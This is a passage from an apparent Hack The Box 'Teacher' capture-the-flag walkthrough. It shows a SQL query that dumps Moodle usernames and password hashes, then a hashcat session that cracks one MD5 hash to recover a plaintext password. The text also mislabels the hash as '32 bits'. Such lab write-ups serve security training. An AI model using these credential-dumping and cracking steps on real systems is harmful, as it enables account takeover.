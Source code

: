 ```sql
+-------------------+--------------+------+-----+-----------+----------------+
53 rows in set (0.00 sec)
MariaDB [moodle]> select username,password,lastlogin FROM mdl_user;
+-------------+--------------------------------------------------------------+------------+
| username | password | lastlogin |
+-------------+--------------------------------------------------------------+------------+
| guest | $2y$10$ywuE5gDlAlaCu9R0w7pKW.UCB0jUH6ZVKcitP3gMtUNrAebiGMOdO | 0 |
| giovanni | $2y$10$38V6kI7LNudORa7lBAT0q.vsQsv4PemY7rf/M1Zkj/i1VqLO0FSYO | 1589731549 |
| admin | $2y$10$7VPsdU9/9y2J4Mynlt6vM.a4coqHRXsNTOq/1aA6wCWTsF2wtrDO2 | 1530059097 |
| Giovannibak | 7a860966115182402ed06375cf0a22af | 0 |
+-------------+--------------------------------------------------------------+------------+
4 rows in set (0.00 sec)
MariaDB [moodle]>
```

I knew that any hash with `$2y$` was not worth trying to crack, since it's bcrypt. The hash for the `Giovannibak` seemed far more interesting, as it was 32 bits. Assuming it was MD5, I fired up hashcat and tried to crack it.

```shell
matt@kali:~/htb/teacher$ hashcat -m 0 hashcat.input /usr/share/wordlists/metasploit/password.lst --force
hashcat (v5.1.0) starting...
OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Core(TM) i7-8665U CPU @ 1.90GHz, 2048/5891 MB allocatable, 4MCU
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.
Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.
* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
* Device #1: Kernel m00000_a0-pure.9c6e2fcd.kernel not found in cache! Building may take a while...
Dictionary cache built:
* Filename..: /usr/share/wordlists/metasploit/password.lst
* Passwords.: 88397
* Bytes.....: 820321
* Keyspace..: 88397
* Runtime...: 0 secs
7a860966115182402ed06375cf0a22af:expelled
Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: 7a860966115182402ed06375cf0a22af
Time.Started.....: Sun May 17 12:18:45 2020 (1 sec)
Time.Estimated...: Sun May 17 12:18:46 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/metasploit/password.lst)
Guess.Queue......: 1/1 (100.00%)
```